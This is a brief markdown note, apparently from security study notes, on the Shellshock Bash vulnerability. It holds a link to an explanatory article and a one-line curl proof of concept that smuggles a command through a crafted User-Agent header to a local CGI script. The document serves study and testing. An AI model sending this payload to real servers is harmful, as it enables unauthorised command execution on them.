 ### shellshock

参考链接

* [shellshock原理介绍](https://introspelliam.github.io/2017/09/09/shellshock%E5%8E%9F%E7%90%86%E4%BB%8B%E7%BB%8D/)

Poc

```
curl -k -A "() { :; }; echo; /bin/ls -lh; " 127.0.0.1/cgi-bin/test.sh
```

